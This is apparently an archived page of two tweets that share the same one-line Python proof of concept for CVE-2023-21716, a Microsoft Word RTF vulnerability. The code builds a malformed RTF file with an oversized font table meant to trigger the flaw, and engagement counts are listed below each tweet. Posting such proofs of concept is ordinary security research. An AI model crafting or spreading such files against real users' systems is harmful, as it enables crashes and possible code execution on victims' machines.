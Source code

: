 
# akaclandestine
**https://twitter.com/akaclandestine/status/1632497070421471235 _at 2023-03-05, 21:43:26_**
<blockquote>
🤔CVE-2023-21716(Microsoft Word RCE vuln) Python PoC
open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# jduck
**https://twitter.com/jduck/status/1632471544935923712 _at 2023-03-05, 20:02:00_**
<blockquote>
CVE-2023-21716 Python PoC (take 2) open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>262</code></td>
<td>Favorites: <code>877</code></td>
</tr></table>

---

